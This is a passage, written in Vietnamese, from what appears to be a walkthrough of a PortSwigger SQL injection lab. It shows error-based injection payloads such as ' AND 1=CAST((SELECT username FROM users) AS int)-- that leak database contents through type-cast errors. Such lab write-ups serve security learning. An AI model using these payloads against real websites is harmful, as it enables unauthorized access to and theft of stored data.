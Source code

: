 => Website trả về lỗi *ERROR: argument of AND must be type boolean, not type integer Position: 63*

=> Điều kiện **AND** phải là biểu thức boolean. Thử chèn **' AND 1=CAST((SELECT 1) AS int)--**: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image170.png?raw=true)

Send request, quan sát response: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image171.png?raw=true)

=> Website không trả về lỗi => đây là 1 truy vấn hợp lệ. Chỉnh sửa truy vấn thành **' AND 1=CAST((SELECT username FROM users) AS int)--**:
